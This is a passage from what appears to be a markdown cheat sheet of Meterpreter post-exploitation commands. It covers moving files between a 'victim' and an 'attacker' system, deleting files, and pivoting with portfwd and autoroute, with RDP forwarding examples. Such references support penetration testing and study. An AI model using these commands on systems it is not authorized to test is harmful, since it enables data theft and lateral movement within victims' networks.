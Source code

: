 ```
interact        interacts with a channel
irb             go into Ruby scripting mode
migrate         moves the active process to a designated PID
quit            terminates the meterpreter session
read            reads the data from a channel
run             executes the meterpreter script designated after it
use             loads a meterpreter extension
write           writes data to a channel
```

## File System Commands:
```
cat             read and output to stdout the contents of a file
cd              change directory on the victim
del             delete a file on the victim
download        download a file from the victim system to the attacker system
edit            edit a file with vim
getlwd          print the local directory
getwd           print working directory
lcd             change local directory
lpwd            print local directory
ls              list files in current directory
mkdir           make a directory on the victim system
pwd             print working directory
rm              delete (remove) a file
rmdir           remove directory on the victim system
upload          upload a file from the attacker system to the victim
```

## Networking Commands:
```
ipconfig        displays network interfaces with key information including IP address, etc.
portfwd         forwards a port on the victim system to a remote service
route           view or modify the victim routing table
```
## Examples:
### Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell
```
portfwd add –l 3389 –p 3389 –r target-host
```

### Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell
```
portfwd delete –l 3389 –p 3389 –r target-host
```

### Meterpreter delete all port forwards
```
portfwd flush
```
### Meterpreter list active port forwards
```
portfwd list
```
### Use Meterpreters autoroute script to add the route for specified subnet 192.168.15.0
```
run autoroute -s 192.168.15.0/24
```